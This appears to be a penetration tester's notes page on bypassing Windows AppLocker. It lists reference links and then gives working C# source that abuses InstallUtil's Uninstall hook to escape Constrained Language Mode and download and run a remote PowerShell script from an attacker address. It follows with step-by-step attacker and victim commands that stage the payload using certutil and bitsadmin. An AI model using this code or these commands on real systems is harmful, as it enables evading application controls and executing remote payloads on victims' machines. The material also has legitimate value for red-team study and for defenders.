 # AppLocker Bypass

* [https://github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList)
* [https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html](https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html)
* [https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html](https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html)
* [https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll](https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll)




## InstallUtil

A combination of AppLocker and CLM bypass:

{% code title="BypassCLM.cs" %}
```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace BypassCLM
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("These aren't the droids you're looking for.");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            string cmd = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
Add a reference for the `System.Management.Automation` assembly before compilation from path: `C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35`.
{% endhint %}

Upload and execute:

```
Attacker > certutil -encode C:\Users\Offsec\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe bypass.txt
Victim > bitsadmin /Transfer myJob http://10.10.13.37/bypass.txt C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > certutil -decode C:\Windows\System32\spool\drivers\color\bypass.txt C:\Windows\System32\spool\drivers\color\bypass.exe && del C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\System32\spool\drivers\color\bypass.exe
```
